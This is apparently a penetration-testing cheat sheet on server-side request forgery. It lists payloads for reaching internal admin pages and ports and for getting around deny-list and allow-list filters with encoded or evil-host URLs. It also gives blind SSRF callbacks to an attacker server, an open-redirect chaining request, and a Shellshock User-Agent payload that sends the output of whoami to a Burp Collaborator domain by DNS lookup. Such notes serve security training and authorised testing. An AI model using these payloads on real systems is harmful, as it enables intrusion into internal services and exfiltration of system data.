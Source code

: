 ![[SSRF.jpg]]
# Recon

Identify any request parameters that appear to contain hostnames, IP addresses or full/partial URLs. Modify each parameter's value to specify another resource, similiar to the one requested and see if it appears in the response.

Try to specify a URL resource that you control out on the Internet and monitor it for connections. If no connections are received, monitor the time taken for the app to respond. If there is a delay it could be a time-out connection due to network restrictions.
# Access Control Bypass

Use a localhost or valid internal IP through a SSRF vector, to potentially bypass access controls implemented on sensitive resources on the app that only allow access to admin users or through a specific IP address/network-interface:

Some examples:

```html
http://localhost/admin
```

```html
http://192.168.0.5:8080/admin
```
# Resource Enumeration

Change the parameter value to another resource and analyse how the app responds. You can probe for port numbers, internal IPs, different hostnames and analyse the app's responses. Ideally, you should know how the app responds to a valid vs invalid specific resource, so you can easily determine when an injected value is valid:

Some examples:

```html
http://192.168.0.1:22/
```

```html
http://192.168.0.1:8080/
```
# Bypass for Disallow-List Filter

If the app is blocking requests for http://127.0.0.1 and /admin resources, you can try the following bypass techniques such as other representations of 127.0.0.1:

```html
http://127.0.0.1/
```

Or URL encoding:

```html
%68%74%74%70%3a%2f%2f%31%32%37%2e%31
```

Obfuscation/Case Variations:

```html
http://127.0.0.1/AdMiN
```
# Bypasses for Allow-List Filter

If the app is only checking that a specific host is somewhere within the parameter, you can bypass this restriction with the following payloads such as embed credentials @ in a URL before hostname:

```bash
https://expected-host@evil-host/
```

Or # character specifies a URL fragment:

```bash
https://evil-host/#expected-host
```

Or a complex method to bypass allow list restrictions (try to encode/double-encode the \#\/@ characters too):

```bash
https://evil-host/#evil-host@expected-host/evil-path
```

```bash
https://expected-host@evil-host/evil-path#
```
# Blind SSRF

If the app does not return any notable differences in the responses from the SSRF payloads, then you can use Blind SSRF techniques such as injecting a payload that triggers an HTTP connection to a domain you control and monitor for any network traffic.

Inject this payload in all susceptible parameters and headers (Referer):

- Example - Referer: https\://ATTACKER_SERVER
# SSRF via Open Redirection

The goal here is to find both an Open Redirection and SSRF vulnerability. The SSRF vector may only allow webroot paths within the same target application. Inject the Open Redirection payload within the SSRF vector and identify how the application responds.

As an example. an open redirection vulnerability you can supply whatever you want in the "path" parameter and it will reflect on the "Location" HTTP response header:

```bash
/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
```

SSRF vulnerability via the "stockApi" parameter (URL encoding may be required for certain characters in the payload to process correctly):

```bash
stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin
```
# Blind SSRF with Shellshock Exploitation

The app may be vulnerable to an SSRF vulnerability through the Referer header. The HTTP interaction contains the User-Agent String within the request. The payload could be:

```bash
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```

Enumerate an internal resource that the app can reach and place this payload in the Referer header:

```bash
Example: Referer: 192.168.0.2:8080
```

The ShellShock payload will be executed in the context of that internal resource and we'll get the "user" (whoami) of the system sent to Burp Collaborator.